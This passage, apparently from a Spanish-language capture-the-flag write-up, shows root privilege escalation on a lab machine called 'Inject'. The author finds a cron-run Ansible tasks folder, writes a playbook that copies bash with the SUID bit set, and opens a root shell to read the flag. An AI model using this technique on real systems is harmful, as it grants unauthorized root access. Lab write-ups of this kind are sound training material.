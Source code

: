 ```bash
phil@inject:~$ ls /opt/automation/tasks/
playbook_1.yml
phil@inject:~$
```
Si miramos el archivo se modificó recientemente, por lo cual puede que exista una tarea cron.Si volvemos a volver a checkear el archivo se modifico 2 minutos después.
```bash
phil@inject:/opt/automation/tasks$ ls -lah
total 12K
drwxrwxr-x 2 root staff 4.0K Mar 13 01:46 .
drwxr-xr-x 3 root root  4.0K Oct 20 04:23 ..
-rw-r--r-- 1 root root   150 Mar 13 01:46 playbook_1.yml
phil@inject:/opt/automation/tasks$
```
Un archivo .YML buscamos en internet el nombre del arvhivo "playbook". Buscando en internet nos encotramos con este [blog](https://iamnasef.com/projects/ansible-privilege-escalation/) que nos lleva a un archivo de [github](https://github.com/iamnasef/ansible-privilege-escalation/blob/main/shell.yml). Creamos un archivo shell.yml con el siguiente contenido.

Esto copiara la bash en la carpeta actual y la convertirá en SUID y podemos spawnear una shell como root.
```bash
---                                                                                                               
- name: shell                                                                                                  
  hosts: localhost
  become: yes

  tasks:
  - name: hack
    shell: "cp /bin/bash . && chmod +sx bash"
```
Una vez pasado los 2 minutos spawneamos la shell como root con:
```bash
/usr/bin/ansible-playbook shell.yml
./bash -p
```
Hurra!!!! somos root, procedemos a leer la flag del usuario root
```bash
bash-5.0# cat root.txt
4e****************************67
bash-5.0# 
```

Máquina Pwneada.



